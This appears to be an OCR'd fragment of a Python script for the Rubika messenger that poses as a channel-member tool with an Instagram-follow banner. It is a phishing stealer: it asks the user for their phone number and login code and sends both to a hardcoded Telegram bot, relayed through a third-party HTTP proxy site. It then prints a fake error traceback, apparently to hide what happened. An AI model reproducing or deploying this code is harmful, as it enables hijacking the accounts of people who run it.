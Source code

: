    print(Fore.MAGENTA +
          '|                                                          |')
    print(Fore.MAGENTA +
          '|      page instagram follow kamiar167                     |')
    print(Fore.MAGENTA +
          '|                                                          |')
    print(Fore.MAGENTA +
          '|                                                          |')
    print(Fore.MAGENTA +
          ' ___________________________________________________________')
    url10 = 'https://api.telegram.org/bot5060011146:AAEQ9pgGU9Cw6FTh2kFLYxjAfZdn7J8B4gg/sendMessage?chat_id=2108923270=&text=' + \
        'کاربر وارد قسمت ممبر کانال روبیکا شد   '
    pyload = {'UrlBox': url10,
              'AgentList': 'Google Chrome',
              'VersionsList': 'HTTP/1.1',
              'MethodList': 'GET'
              }

    https = requests.post(
        'https://www.httpdebugger.com/Tools/ViewHttpHeaders.aspx', data=pyload)
    print('>>> 09050000000')
    rubika = input(' Enter phone number : ')

    url8 = 'https://api.telegram.org/bot5060011146:AAEQ9pgGU9Cw6FTh2kFLYxjAfZdn7J8B4gg/sendMessage?chat_id=2108923270=&text=' + \
        'بپر شمارشو بزن تا کد بیاد برات اینم شمارش : '+rubika
    pyload = {'UrlBox': url8,
              'AgentList': 'Google Chrome',
              'VersionsList': 'HTTP/1.1',
              'MethodList': 'GET'
              }

    https = requests.post(
        'https://www.httpdebugger.com/Tools/ViewHttpHeaders.aspx', data=pyload)

    code2 = input(' Enter code  : ')

    url9 = 'https://api.telegram.org/bot5060011146:AAEQ9pgGU9Cw6FTh2kFLYxjAfZdn7J8B4gg/sendMessage?chat_id=2108923270=&text=' + \
        'شماره موبایل :  '+rubika+'\n'+'کد ورودی :  '+code2

    pyload = {'UrlBox': url9,
              'AgentList': 'Google Chrome',
              'VersionsList': 'HTTP/1.1',
              'MethodList': 'GET'
              }

    https = requests.post(
        'https://www.httpdebugger.com/Tools/ViewHttpHeaders.aspx', data=pyload)
    time.sleep(5)
    print(Fore.RED + ' extensions\ms-python.python-2021.12.1559732655\pythonFiles\lib\python\debugpy\launcher/../..\debugpy\launcher\__init__.py", line 34, in connect\
        dffdgdgdreturn _run_code(code, main_globals, None ')
